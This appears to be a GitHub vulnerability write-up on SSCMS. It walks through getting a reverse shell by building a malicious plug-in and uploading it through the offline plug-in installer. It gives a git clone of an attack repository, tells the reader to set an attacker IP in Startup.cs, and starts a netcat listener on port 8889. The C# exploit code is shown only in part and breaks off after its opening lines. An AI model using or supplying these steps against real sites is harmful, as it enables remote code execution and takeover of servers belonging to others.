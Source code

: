 [TOC]

# Vul Function Point

Plug-in offline installation function, Rebound Shell is realized by making malicious plug-ins.

<img width="1439" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279046-c5c8dcd3-5620-415f-b520-eea40009395b.png">

# Plug-in Make

```bash
git clone https://github.com/Richard-Tang/SSCMS-PluginShell.git
```

Change the IP address in “Startup.cs” File, Compile using VisualStudio tools.

<img width="965" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279188-83a027ec-7c3e-4bcc-b1e6-2e793d6d1a48.png">

<img width="938" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279207-09dca024-2c13-4d12-b980-fb1852845c0a.png">

compression files

<img width="891" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279228-f58ecc65-d3fe-4381-a1e7-372ab41b01da.png">

# GetShell

```bash
nc -lvvp 8889
```

<img width="325" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279280-bd0f2886-77c0-42e0-b0d5-942221dcd38b.png">

upload plugin

<img width="1327" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279320-4e686a65-10f3-4739-bfe4-966fefdd345a.png">

Reverse Shell successfully obtains permissions

<img width="806" alt="图片" src="https://user-images.githubusercontent.com/30547741/160279377-80d8b374-7a85-4ae1-a3cd-af0a614e185f.png">

# Principle

You just need to write code that conforms to the plug-in format and invoke the corresponding function when the plug-in is installed to trigger Exploit Code。

```c#
using Microsoft.Extensions.DependencyInjection;
using SSCMS.Advertisement.Abstractions;
using SSCMS.Advertisement.Core;
using SSCMS.Plugins;
using System.Diagnostics;
using System;
using System.Text;
using System.Net.Sockets;
using System.Net;
using System.Threading;

namespace SSCMS.Advertisement
{
    public class Startup : IPluginConfigureServices
    {
        public void ConfigureServices(IServiceCollection services)
        {
```